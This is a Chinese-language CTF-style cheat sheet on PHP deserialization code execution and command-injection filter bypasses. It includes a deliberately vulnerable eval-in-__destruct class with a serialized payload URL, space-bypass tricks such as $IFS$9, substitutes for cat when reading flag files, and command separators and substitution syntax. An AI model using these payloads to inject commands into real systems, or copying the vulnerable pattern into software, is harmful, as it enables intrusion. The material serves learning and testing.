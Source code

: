 ![[Pasted image 20240121163059.png]]
###### 反序列化
如果 `unserialize()` 在执行时定义了 `__destruct()` 或 `__wakeup()` 函数，则有可能导致代码执行
```php
<?php 
	class Example { 
		var $var = ""; 
		function __destruct() { eval($this->var);
	} 
} 
unserialize($_GET["saved_code"]); 
?>
```
```
http://www.a.com/index.php?saved_code=O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}
```

##### 空格绕过：
```
< 、<>、%20(space)、%09(tab)、$IFS$9、 ${IFS}、$IFS等
$IFS在linux下表示分隔符，但是如果单纯的cat$IFS2,bash解释器会把整个IFS2当做变量名，所以导致输不出来结果，然而如果加一个{}就固定了变量名，同理在后面加个$可以起到截断的作用，但是为什么要用$9呢，因为$9只是当前系统shell进程的第九个参数的持有者，它始终为空字符串。
```
##### cat绕过
```
cat、
tac、反向显示
more、一页一页显示档案内容
less、合more类似
head、
tail、查看末尾几行
nl、显示的时候，顺便输出行号
sed、
sort、
uniq、报告或删除文件中重复的行
od、以二进制的方式读取档案内容
xxd、读取二进制文件
file -f、报错出具体位置
grep fl fl*、在fl*文件中查找指定字符串fl

```
![[Pasted image 20240121200739.png]]**
##### 分隔符：
```
linux中：%0a 、%0d 、; 、& 、| 、&&、||  
windows中：%0a、&、|、%1a（一个神奇的角色，作为.bat文件中的命令分隔符）
```
1、在 shell 中，担任”连续指令”功能的符号就是”;”  
2、"&" 放在启动参数后面表示设置此进程为后台进程，默认情况下，进程是前台进程，这时就把Shell给占据了，我们无法进行其他操作，对于那些没有交互的进程，很多时候，我们希望将其在后台启动，可以在启动参数的时候加一个’&’实现这个目的。  
3、管道符"|"左边命令的输出就会作为管道符右边命令的输入，所以左边的输出并不显示
##### 命令执行绕过
```
`命令`和$(命令)和{命令}都是执行命令的方式
```
